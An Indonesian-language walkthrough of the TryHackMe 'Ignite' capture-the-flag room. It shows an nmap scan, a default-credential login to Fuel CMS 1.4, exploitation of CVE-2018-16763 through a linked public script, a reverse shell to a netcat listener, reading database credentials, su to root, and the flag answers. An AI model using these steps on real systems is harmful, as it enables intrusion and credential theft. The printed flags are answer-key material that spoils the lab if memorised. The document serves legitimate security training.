 # Ignite
- TryHackMe Room: https://tryhackme.com/room/ignite
- IP Machine: 10.10.116.227

## Task 1 Root it!
- Scanning server menggunakan nmap. Disini hanya ada 1 port yang terbuka, yaitu port 80 (http)
```sh
nmap -sV -sC <IP_Machine>
```

- Buka halaman web `http://<IP_Machine>` di browser. Disini terlihat bahwa halaman ini adalah halaman default fuel CMS versi 1.4

- Di halaman tersebut terdapat informasi dimana letak file konfigurasi database

- Di halaman tersebut juga terdapat informasi cara mengakses halaman admin dan default credential

- Sekarang kita coba akses halaman admin dengan url `http://<IP_Machine>/fuel` dan kita langsung diarahkan ke halaman login. Sekarang kita isi username dan password dengan default credential diatas

- Kita berhasil masuk ke halaman admin, tapi tidak ditemukan hal menarik disini

- Berdasarkan riset, fuel CMS versi 1.4 rentan terhadap serangan Remote Code Execution ( CVE 2018-16763 )


- Kita bisa memanfaatkan script python3 di link https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py untuk melakukan exploitasi pada fuel CMS versi 1.4
- Sekarang kita buat sebuah listener netcat di terminal baru
```sh
nc -lnvp <port>
```

- Jalankan script fuel-cms.py
```sh
python3 fuel-cms.py <IP_Machine>
```

- Ketik `shell_me` kemudian masukkan IP tun0 pada komputer anda lalu nomor port yang digunakan listener netcat tadi dengan format sebagai berikut
```sh
<IP_tun0>:<port>
```

- Disini listener netcat berhasil terkoneksi dengan server dan masuk sebagai user **www-data**

- Selanjutnya kita buka file konfigurasi database fuel CMS, disana terdapat nama user root dan password
```sh
cat fuel/application/config/database.php
```

- Kita juga berhasil menemukan lokasi dan isi user flag
```sh
cat /home/www-data/flag.txt
```

- Untuk mengakses user root kita perlu mengubah shell menjadi terminal interaktif
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

- Sekarang kita switch ke user root lalu masukkan password yang sudah ditemukan tadi. Disini kita berhasil mengakses user root
```sh
su root
```

- Sekarang kita buka isi root flag
```sh
cat /root/root.txt
```

- **Pertanyaan:** User.txt
- **Jawaban:**
```sh
6470e394cbf6dab6a91682cc8585059b
```
- **Pertanyaan:** Root.txt
- **Jawaban:**
```sh
b9bbcb33e11b80be759c4e844862482d
```